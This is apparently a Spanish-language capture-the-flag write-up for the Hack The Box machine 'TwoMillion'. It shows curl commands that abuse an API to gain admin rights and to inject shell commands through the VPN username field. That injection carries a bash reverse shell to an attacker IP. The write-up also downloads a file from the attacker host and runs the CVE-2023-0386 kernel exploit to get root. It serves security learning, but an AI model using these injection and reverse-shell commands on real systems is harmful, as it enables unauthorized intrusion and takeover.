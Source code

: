 ```yaml
---
description: >-
  ✍️ Autor: TRX & TheCyberGeek 🔍 Dificultad: Fácil 📅 Fecha de creación:
  7/06/2023
---
```


# TwoMillion

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 10.10.11.221
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (18) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sC -sV 10.10.11.221
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 EXPLORACIÓN

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 10.10.11.221
```

para que nos proporcione más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Revisamos el puerto 80.

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Se asimila a la página oficial de Hack The Box pero no vemos nada interesante por lo que revisamos los directorios.

```bash
gobuster dir -u http://2million.htb/ --wordlist /usr/share/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-medium.txt --exclude-length 162
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención el directorio `/invite` se asimila a como se tenía que registrar la gente al principio en la plataforma ya que se necesitaba un código de invitación. Tras inspeccionar la página encontramos la función llamada **makeInviteCode**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

La llamamos.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como vemos esta encriptada en **ROT13** por lo que desencriptamos.

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Realizamos lo que nos comunica la pista.

```bash
curl -s -X POST "http://2million.htb/api/v1/invite/generate"
```

<figure><img src="../../.gitbook/assets/image (19) (1) (1).png" alt=""><figcaption></figcaption></figure>

Está el código en **base64** por lo que decodificamos.

```bash
echo "SDg2RjUtUUdRMDUtWEdEMTItU1o3QTg=" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ponemos el código de invitación.

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 125945.png" alt=""><figcaption></figcaption></figure>

Nos logueamos con las credenciales registradas.

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Vamos al apartado de **Access**. Miramos los endpoints de la API.

```bash
curl -s -X GET "http://2million.htb/api/v1" -v
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos sale **Unauthorized** por lo que tenemos que coger la **cookie session**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
curl -s -X GET "http://2million.htb/api/v1" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

No somos administradores. Tampoco podemos generar una VPN. Vemos que podemos actualizar datos del usuario así que probamos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos avisa del email por lo que añadimos.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com"}'| jq
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Nos dice que falta un parámetro por si es administrador.

```bash
curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"email":"bea@gmail.com", "is_admin":1}'| jq
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos administradores lo que significa que la API está mal configurada. Por si acaso revisamos.

```bash
curl -s -X GET "http://2million.htb/api/v1/admin/auth" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Intentamos generar una VPN ya que somos admin.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" | jq
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Matizamos lo que se nos avisa.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json"| jq
```

<figure><img src="../../.gitbook/assets/image (22) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ahora nos pide el parámetro username.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"beafn28"}'| jq
```

<figure><img src="../../.gitbook/assets/image (23) (1) (1).png" alt=""><figcaption></figcaption></figure>

La respuesta ya no está en JSON por lo que lo quitamos.

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Genera una VPN por el usuario que le diga. Por lo que hacemos lo siguiente.

```bash
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username":"prueba; whoami;"}'
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Somos www-data por lo que tenemos RCE.

```
curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=ekuhv9pthbgidsinr34h04n0hq" -H "Content-Type: application/json" -d '{"username": "prueba; bash -c \"bash -i >& /dev/tcp/10.10.14.58/443 0>&1\";"}'
```

Nos conectamos.

```bash
nc -lnvp 443
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Tenemos un fichero .env interesante mostramos su contenido.

<figure><img src="../../.gitbook/assets/image (13) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Migramos de usuario.

```bash
ssh admin@2million.htb
```

<figure><img src="../../.gitbook/assets/image (14) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar pero nos pide contraseña. Tampoco tenemos permisos SUID.&#x20;

Nos dice que tenemos un mail.

<figure><img src="../../.gitbook/assets/image (15) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al ver la información del sistema en el que nos encontramos encontramos este exploit.

{% @github-files/github-code-block url="https://github.com/sxlmnwb/CVE-2023-0386" %}

Nos lo descargamos en nuestra máquina víctima tras comprimirlo en nuestra máquina anfitrión.

```bash
wget http://10.10.14.58/comprimido.zip
```

<figure><img src="../../.gitbook/assets/image (17) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Abrimos otra terminal y nos logueamos a través de **ssh** y también nos situamos en el directorio `/tmp/CVE-2023-0386`.

```
PRIMERA TERMINAL
make all
./fuse ./ovlcap/lower ./gc

SEGUNDA TERMINAL
./exp
```

Tras realizar esto nos convertimos en **root**.

<figure><img src="../../.gitbook/assets/image (1166).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (1165).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/Captura de pantalla 2025-02-12 153509.png" alt=""><figcaption></figcaption></figure>
